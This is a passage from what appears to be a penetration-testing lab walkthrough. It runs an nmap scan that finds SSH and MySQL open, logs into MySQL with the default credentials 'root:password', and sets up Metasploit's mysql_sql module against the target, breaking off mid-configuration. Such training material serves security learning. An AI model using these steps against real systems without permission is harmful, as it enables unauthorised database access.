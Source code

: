 An output similar to below will be obtained.
{% capture code %}{% raw %}Starting Nmap 7.80 ( https://nmap.org ) at 2021-01-13 17:19 UTC
Nmap scan report for <hostname> (<ip>)
Host is up, received arp-response (0.00081s latency).
Not shown: 1998 closed ports
Reason: 1998 resets
PORT     STATE SERVICE REASON
22/tcp   open  ssh     syn-ack ttl 64
3306/tcp open  mysql   syn-ack ttl 64
MAC Address: 02:9F:FE:B4:B9:EB (Unknown)

Nmap done: 1 IP address (1 host up) scanned in 0.55 seconds{% endraw %}{% endcapture %} {% include code.html code=code %}

Use `mysql` to login and verify with credentials `root:password`. The `mysql` binary can be found in `mysql-client` package.
{% capture code %}{% raw %}mysql -h <ip> -u root -p{% endraw %}{% endcapture %} {% include code.html code=code %}

An output similar to below will be obtained.
{% capture code %}{% raw %}Enter password: password
Welcome to the MariaDB monitor.  Commands end with ; or \g.
Your MySQL connection id is 2
Server version: 5.7.29-0ubuntu0.18.04.1 (Ubuntu)

Copyright (c) 2000, 2018, Oracle, MariaDB Corporation Ab and others.

Type 'help;' or '\h' for help. Type '\c' to clear the current input statement.

MySQL [(none)]> exit
Bye{% endraw %}{% endcapture %} {% include code.html code=code %}

Use `msfconsole` to perform auxiliary scan and get database information.
{% capture code %}{% raw %}msfconsole
    msf5 > search mysql_sql

    Matching Modules

    #  Name                             Disclosure Date  Rank    Check  Description
    -  ----                             ---------------  ----    -----  -----------
    0  auxiliary/admin/mysql/mysql_sql                   normal  No     MySQL SQL Generic Query

    msf5 > use auxiliary/admin/mysql/mysql_sql
    msf5 auxiliary(admin/mysql/mysql_sql) > show options

    Module options (auxiliary/admin/mysql/mysql_sql):

    Name      Current Setting   Required  Description
    ----      ---------------   --------  -----------
    PASSWORD                    no        The password for the specified username
    RHOSTS                      yes       The target host(s), range CIDR identifier, or hosts file with syntax 'file:<path>'
    RPORT     3306              yes       The target port (TCP)
    SQL       select version()  yes       The SQL to execute.
    USERNAME                    no        The username to authenticate as

    msf5 auxiliary(admin/mysql/mysql_sql) > show missing

    Module options (auxiliary/admin/mysql/mysql_sql):

    Name    Current Setting  Required  Description
    ----    ---------------  --------  -----------
    RHOSTS                   yes       The target host(s), range CIDR identifier, or hosts file with syntax 'file:<path>'

    msf5 auxiliary(admin/mysql/mysql_sql) > set RHOSTS <ip>
    RHOSTS => <ip>
    msf5 auxiliary(admin/mysql/mysql_sql) > set USERNAME root